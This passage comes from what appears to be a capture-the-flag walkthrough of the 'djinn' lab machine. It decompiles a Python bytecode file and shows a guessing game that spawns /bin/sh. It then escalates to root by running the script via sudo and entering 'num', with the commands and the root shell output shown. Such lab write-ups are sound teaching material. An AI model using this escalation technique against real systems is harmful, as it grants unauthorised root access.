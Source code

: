```console
root@kali:~$ pip3 install decompyle3

root@kali:~$ decompyle3 pyc
...
def guessit():
    num = randint(1, 101)
    print("Choose a number between 1 to 100: ")

    try:
        s = input("Enter your number: ") 
        if s == num:
            system("/bin/sh")

        else:
            print("Better Luck next time")
    except:
        print("Slow claps again")
...
```

As we can see in the previous result, this script generates a random number and then asks to the user for the generated number and if is true it will execute a /bin/sh, knowing how it works we can bypass this by inserting the word **num** where it asks us to enter a number from 1 to 100, and we get a root shell.

```console
sam@djinn:/opt/80$ sudo /root/lago
sudo /root/lago
What do you want to do ?
1 - Be naughty
2 - Guess the number
3 - Read some damn files
4 - Work
Enter your choice:2
2
Choose a number between 1 to 100: 
Enter your number: num
num
# id
id
uid=0(root) gid=0(root) groups=0(root)
```
